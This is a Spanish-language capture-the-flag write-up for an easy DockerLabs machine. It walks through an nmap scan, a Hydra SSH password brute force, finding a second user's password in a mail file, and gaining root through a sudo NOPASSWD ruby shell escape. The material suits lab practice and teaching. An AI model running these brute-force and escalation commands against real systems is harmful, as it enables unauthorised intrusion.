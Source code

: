 # Write-up - Escalada con Ruby y enumeración horizontal

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 01/06/2025  
**Aprendizaje:**  
- Enumeración horizontal al explorar más allá del home del usuario actual.    
- Importancia de revisar el código fuente de páginas web en busca de comentarios o datos expuestos.    
- Recordar que cuando `sudo -l` muestra un binario sin contraseña (NOPASSWD), el usuario listado puede ejecutarlo con privilegios de root.  

---

## Enumeración y acceso inicial

### 1. Escaneo con Nmap

`sudo nmap -sSV -O 10.88.0.3`

> Resultado:

`22/tcp → SSH (OpenSSH 7.6p1)`  
`80/tcp → HTTP (Apache 2.4.29)`  
`SO: Linux`  

### 2. Revisión del código fuente

Al inspeccionar http://10.88.0.3, se observa el siguiente comentario HTML:

> De : Juan Para: Camilo , te he dejado un correo es importante...

### 3. Ataque de fuerza bruta con Hydra

`hydra -l camilo -P /usr/share/wordlists/rockyou.txt -V ssh://10.88.0.3`

> Credenciales obtenidas:

Usuario: `camilo`  
Contraseña: `password1`  

### 4. Enumeración horizontal

`cd ..`

Se observa una lista de usuarios pero sin contenido útil en sus carpetas.  
Se sigue navegando:  

`cd ../..`    
`cd /var/mail`  

Se encuentra un archivo de texto dentro del directorio de camilo con la siguiente información:  

> Hola Camilo,  
Me voy de vacaciones y no he terminado el trabajo que me dio el jefe.  
Por si acaso lo pide, aquí tienes la contraseña: `2k84dicb`

### 5. Acceso como nuevo usuario (Juan)

`ssh -l juan 10.88.0.3`  

Contraseña: `2k84dicb`  

## Escalada de privilegios

### 6. Verificar comandos ejecutables como sudo  

`sudo -l`

Resultado:  

User juan may run the following commands on db2f0299b72a:  
(ALL) NOPASSWD: /usr/bin/ruby  

Esto indica que `juan` puede ejecutar el binario ruby como `root` sin necesidad de contraseña.

### 7. Ejecución de shell como root

`sudo ruby -e 'exec "/bin/sh"'`

> whoami = `root`
